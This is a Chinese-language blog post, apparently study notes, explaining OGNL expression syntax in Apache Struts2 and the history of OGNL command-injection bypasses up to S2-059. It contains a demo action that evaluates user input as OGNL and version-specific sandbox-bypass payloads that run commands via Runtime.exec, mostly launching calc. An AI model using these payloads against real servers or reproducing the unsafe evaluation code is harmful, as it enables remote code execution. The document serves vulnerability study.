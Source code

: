 ```yaml
---
layout:     post
title:      Struts2-ONGL-表达式
subtitle:   开始接触struts2框架、继续学习java的表达式
date:       2020-10-11
author:     BY Diego
header-img: img/wenzhang/post-bg-java-struts-ognl.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```




![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)![0csDU0.png](https://s1.ax1x.com/2020/10/11/0csDU0.png)





### Ognl 表达式基本使用



使用方法：

```java
OgnlContext context = new OgnlContext()  //创建一个Ognl上下文环境
context.setRoot() //设置root元素 （根元素
context.put("id",1) //向环境变量中加入变量
Object ognl = Ognl.parseExpression("#id") //建立表达式 (取值
value = Ognl.getValue(ognl,context,context.getRoot()) //执行
```



demo 类

```java
package com.diego.demo;

import com.opensymphony.xwork2.Action;
import com.opensymphony.xwork2.ActionContext;
import ognl.Ognl;
import ognl.OgnlContext;

public class Ognl_test implements Action {

    public String payload;

    public class Users{
        Users(Integer age,String name){
            this.age = age;
            this.name = name;
        }
        public Integer age ;
        public String name ;
    }
    
    public String getPayload(){
        return payload;
    }

    @Override
    public String execute() throws Exception {
        // 创建 Action 容器
        ActionContext actionContext = ActionContext.getContext();
        if(payload != null){
			// 创建一个Ognl上下文环境
            OgnlContext context = new OgnlContext();
            Object value = null;
            try {
                // id = 1 加入环境变量
                context.put("id",1);
                Users users1 = new Users(1,"Diego1");
                Users users2 = new Users(2,"Diego2");
                // users1 users2 加入环境变量
                context.put("users1",users1);
                context.put("users2",users2);
                // 设置users1 为ROOT对象
                context.setRoot(users1);
				// 创建 Ognl 表达式
                Object ognl = Ognl.parseExpression(payload);
                // 解析表达式
                value = Ognl.getValue(ognl,context,context.getRoot());
            } catch (Exception e) {
                e.printStackTrace();
            }
            // 解析结果 放入Action 容器
            actionContext.put("res",value);
            System.out.println(value);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}

```



结合上面例子看出Ognl语法为 ：

**访问非根元素 :**

* #[变量]    ----->  `#users2` ,`#id`

* #\[对象][属性]   ----->  `#users2.age`

* #\[对象]\[方法名]()   ----->  `#users2.test()`

**访问根元素：** （以一个对象为根元素 访问成员或方法时可以 去掉`#对象名.`

* \[对象][属性]  ----->  `age`,`name`
* \[对象]\[方法名]()  ----->  `test()`

  **调用方法**：

* `xxx.getName()`

**支持类静态的方法调用和值访问**

 格式：`@[类全名（包括包路径）]@[方法名 |  值名]`

* 调用方法 `@java.lang.Runtime@getRuntime().exec('calc')`

* 调用成员 `@com.diego.demo.Ognl_test@aaa`  //

![0rYB28.png](https://s1.ax1x.com/2020/10/09/0rYB28.png)

**可以给上下文的变量赋值**

* 一般变量 `#id=111111,#id` 
* 成员变量 `#users2.age=99999,#users2.age`

![0rNxDe.png](https://s1.ax1x.com/2020/10/09/0rNxDe.png)

**静态方法调用**

* `@@min(1,2)`



**多语句执行**

* `().() 可以执行多语句`

### Ognl命令注入 历史漏洞

以下都是绕过`SecurityMemberAccess` 或者修改 `memberAccess`

**Struts 2.3.14.1版本前**

```
(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc'))
```

**2.3.14.1后 - 2.3.20版本前**

```
(#p=new java.lang.ProcessBuilder('calc')).(#p.start())
```



**2.3.20版本 - 2.3.28版本** (本地2.3.37 也可

```
(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.3.30(2.5.2)之后**

```
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('calc'))
```



**2.5.16**

```
第一次

(#context=#attr['struts.valueStack'].context).
(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))

第二次
(#context=#attr['struts.valueStack'].context).
(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).
(@java.lang.Runtime@getRuntime().exec('curl 127.0.0.1:9001'))
```





### Struts2 059

影响版本

Struts 2.0.0 - Struts 2.5.20

Apache Struts 2 会对某些标签属性（比如 id）的属性值进行二次表达式解析，并且在 Struts 标签属性内强制进行 OGNL 表达式解析时的情况因此在某些场景下将可能导致远程代码执行。



服务端代码 （及diego可控

```java
public class Ognl_test implements Action {
    
    public String diego ;
    public String getDiego(){
        return diego;
    }
    
    @Override
    public String execute() throws Exception {
        ActionContext actionContext = ActionContext.getContext();
        if(diego != null){
            actionContext.put("diego",diego);
            return SUCCESS;
        }else{
            return ERROR;
        }
    }
}
```



Ognl.jsp

![0cBkAf.png](https://s1.ax1x.com/2020/10/11/0cBkAf.png)





![0cDZa6.png](https://s1.ax1x.com/2020/10/11/0cDZa6.png)



`%{(#aaaa=123456).(#aaaa)}` ,可以执行Ognl 表达式

![0cruT0.png](https://s1.ax1x.com/2020/10/11/0cruT0.png)



绕过方法与`Ognl命令注入` 相同

s2-059 payload 与具体版本有关
